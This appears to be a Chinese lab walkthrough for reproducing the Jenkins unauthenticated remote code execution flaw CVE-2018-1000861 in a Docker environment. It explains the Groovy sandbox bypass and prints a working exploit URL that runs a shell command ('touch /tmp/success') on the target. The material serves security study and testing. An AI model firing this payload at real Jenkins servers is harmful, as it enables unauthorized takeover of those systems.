

Jenkins 远程代码执行漏洞（CVE-2018-1000861）¶
Jenkins 是一个广泛使用的开源自动化服务器。
Jenkins 2.153 及更早版本，LTS 2.138.3 及更早版本存在未授权的远程代码执行漏洞。在 stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java 中，攻击者可以通过访问构造的 URL 路径来调用 Java 对象上的某些方法，而这些路径原本并不是设计用来这样调用的。
在这个漏洞中，可以发现多个可利用的攻击链。其中最严重的是通过绕过 Groovy 沙盒导致未授权用户可执行任意命令：Jenkins 在沙盒中执行 Groovy 脚本之前会先检查语法错误，这个检查过程是在沙盒之外进行的，攻击者可以通过元编程（Meta-Programming）的方式在这个验证步骤中执行任意命令。
参考链接：
- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html
环境搭建¶
执行如下命令启动 Jenkins 2.138，相关的漏洞插件已预先安装：
docker compose up -d
等待服务器完全启动后，访问 http://your-ip:8080 即可看到 Jenkins 已成功运行，无需进行任何手动安装。
漏洞复现¶
使用 @orangetw 提供的一键化 POC 脚本，发送如下请求即可执行命令：
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
public x(){
"touch /tmp/success".execute()
}
}

/tmp/success 文件的成功创建证实了远程代码执行漏洞的存在：
